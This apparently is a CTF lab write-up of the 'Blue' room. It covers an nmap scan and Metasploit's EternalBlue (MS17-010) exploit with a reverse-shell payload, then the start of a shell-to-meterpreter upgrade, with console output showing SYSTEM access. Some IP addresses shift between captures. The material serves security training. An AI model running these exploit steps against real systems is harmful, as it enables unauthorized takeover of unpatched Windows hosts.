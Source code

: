 # Blue

# Task1 Recon

How many ports are open with a port number under 1000?
→ 3

```
root@ip-10-10-238-101:~# nmap 10.10.20.71

Starting Nmap 7.60 ( https://nmap.org ) at 2022-06-06 15:14 BST
Nmap scan report for ip-10-10-20-71.eu-west-1.compute.internal (10.10.20.71)
Host is up (0.00068s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
MAC Address: 02:F6:A4:D1:34:B7 (Unknown)
```

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
→　MS17-010

https://isc.sans.edu/forums/diary/ETERNALBLUE+Windows+SMBv1+Exploit+Patched/22304/

# Task2 Gin Access

Exploit the machine and gain a foothold.

Start Metasploit


Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
→　exploit/windows/smb/ms17_010_eternalblue

https://infosecwriteups.com/cybertalent-exploiting-ms17-010-eternal-blue-on-a-remote-server-mature-blue-lab-18dee68da431

Show options and set the one required value. What is the name of this value? (All caps for submission)
→　RHOSTS

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.238.101    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```




```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.20.71
RHOSTS => 10.10.20.71
'''

'''
exploit -z
```

```
[*] Command shell session 1 opened (10.10.238.101:4444 -> 10.10.20.71:49216) at 2022-06-06 15:46:46 +0100
[+] 10.10.20.71:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.20.71:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.20.71:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 1 created in the background.

```

# Task3 Escalate

Escalate privileges, learn how to upgrade shells in metasploit.


取得したリバースシェルをバックグラウンドに一度退避する。

If you haven't already, **background the previously gained shell (CTRL + Z)**. Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

→post/multi/manage/shell_to_meterpreter 

'https://www.cyber-security-risk.info/article/453072272.html'




Select this (use MODULE_PATH). Show options, what option are we required to change?

→SESSION

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > 
```


msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.204.225:4444 -> 10.10.154.24:49173 (10.10.154.24)

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.204.225:4444 -> 10.10.154.24:49173 (10.10.154.24)

  msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on.

```



Run! If this doesn't work, try completing the exploit from the previous task once more.

```
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    10.10.154.24     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    49173            yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on.

```


